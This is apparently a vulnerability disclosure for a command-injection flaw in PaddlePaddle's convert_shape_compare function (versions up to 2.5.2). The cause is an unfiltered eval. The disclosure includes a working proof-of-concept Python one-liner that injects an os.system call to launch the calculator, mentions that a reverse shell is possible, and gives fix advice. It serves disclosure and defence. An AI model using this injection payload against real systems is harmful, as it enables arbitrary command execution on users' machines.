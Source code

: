 
Vulnerability Product: Baidu.Inc PaddlePaddle's paddle  
Vulnerability Version: <= 2.5.2  
Vulnerability Type: Command Execution  
Vulnerability Vender: Baidu.Inc  
Vulnerability Details:  discovered by leeya_bug  
Vulnerability Location: paddle/jit/dy2static/convert_operators.py  

## [](#header-3)Basic Info:

Baidu,Inc is a Chinese multinational technology company specializing in Internet-related services, products, and artificial intelligence(AI), headquartered in Beijing's Haidian District. It is one of the largest AI and Internet companies in the world. The holding company of the group is incorporated in the Cayman Island.  

Baidu.Inc PaddlePaddle's Official lib paddle exists Command Execute Vulnerability, Easy to cause user's devices to be hijacked by attackers.

## [](#header-3)PROVE: 

0、Prepare a computer which can run Python3 and Windows10(or other os if you construct a suitable payload)  

1、Download paddle latest version(or <= v2.5.2 if paddle updated)  
```
pip3 install paddlepaddle==2.5.2
```

2、Run Python3, Construct a payload that can run calculator, And run belowing code in python  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

3、You can find it successfully run calculator  
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis1.png)  
proved Command Execution  

POC:  
```py
import paddle
paddle.jit.dy2static.convert_operators.convert_shape_compare('prefix','+ str(__import__("os").system("calc")) +','1')
```

## [](#header-3)REASON: 

There is an unfiltered dangerous function (line 681) in API:convert_shape_compare of path paddle/jit/dy2static/convert_operators.py, allowing attackers to construct dangerous code to bypass the filter and result in command execution.  
If the user mistakenly runs dangerous code, the attacker can construct a payload and run a reverse shell to control the user's computer.  
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis2.png)  

Actually it's also easy for attacker to call the first eval if condition is true.  
![图片](https://raw.githubusercontent.com/Leeyangee/leeya_bug/main/AboutThis3.png)  


## [](#header-3)FIX: 

1、do not use eval or use safe_eval  
2、filter more  

discovered by leeya_bug  
2023/12/15  

-----------
2023/12/16 update: uppercase letter, add basic information.

-----------
2023/12/17 update: another same vulnerability
